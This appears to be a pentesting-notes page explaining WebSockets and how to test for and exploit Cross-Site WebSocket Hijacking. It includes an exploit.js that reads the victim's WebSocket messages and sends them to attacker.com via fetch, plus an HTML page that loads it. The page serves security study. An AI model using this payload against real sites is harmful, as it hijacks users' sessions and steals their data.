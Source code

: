 ```yaml
---
title: WebSockets
description: A protocol that enables bidirectional communication over a single TCP connection, mainly used for real-time features like chat, but can be insecure if not properly protected against message injection, CSRF, and lack of authentication.
---
```

WebSockets let the browser and server talk to each other at the same time using one connection that stays open. After a handshake, the connection stays active, and both sides can send messages whenever they want — like a two-way conversation. The server can also send updates to the browser right away when something happens.

- Web Socket secure: `wss://`
- `ws://`: data is sent without encryption

## Exploit
### Cross-Site WebSocket Hijacking
Identify the server doesn't validate origin header by 
1. Spoof the `Origin` header
2. Check auth cookies `samesite` flag  is set to **None**

*Note:  it is not possible to exploit CSWSH if the victim uses Firefox, due to [Total Cookie Protection](https://support.mozilla.org/en-US/kb/introducing-total-cookie-protection-standard-mode).* 
s
`exploit.js`
```js
<script>
  //Establish the WebSocket connection
  const ws = new WebSocket('wss://target.com/chat');

  // Send a message to the server once connected
  ws.onopen = () => {
    ws.send("READY");
  };

  // Handle messages received from the server
  ws.onmessage = (event) => {
    fetch('https://attacker.com?msg=' + btoa(event.data));
  };
</script>

```

```html
<html>
	<head></head>
	<body><script src="https://attacker.com/exploit.js"></script></body>
</html>
```

1. User opens the malicious HTML page.
2. JavaScript runs automatically in the background and creates a WebSocket connection to the target server.
3. Once connected, the victim's browser sends `READY`
4. When the server replies, the script:
	- Receives the message
	- Encodes it as base64 with `btoa(...)`
	- Sends it to the attacker's server using: `fetch('https://attacker.com?msg=' + btoa(event.data));`
## References
- [RFC 6455](https://datatracker.ietf.org/doc/html/rfc6455)
- [Black Hills - Can’t Stop, Won’t Stop Hijacking (CSWSH) WebSockets ](https://www.blackhillsinfosec.com/cant-stop-wont-stop-hijacking-websockets/)
- [HackTricks - WebSocket Attacks](https://book.hacktricks.wiki/en/pentesting-web/websocket-attacks.html?highlight=websocket#establishment-of-websocket-connections)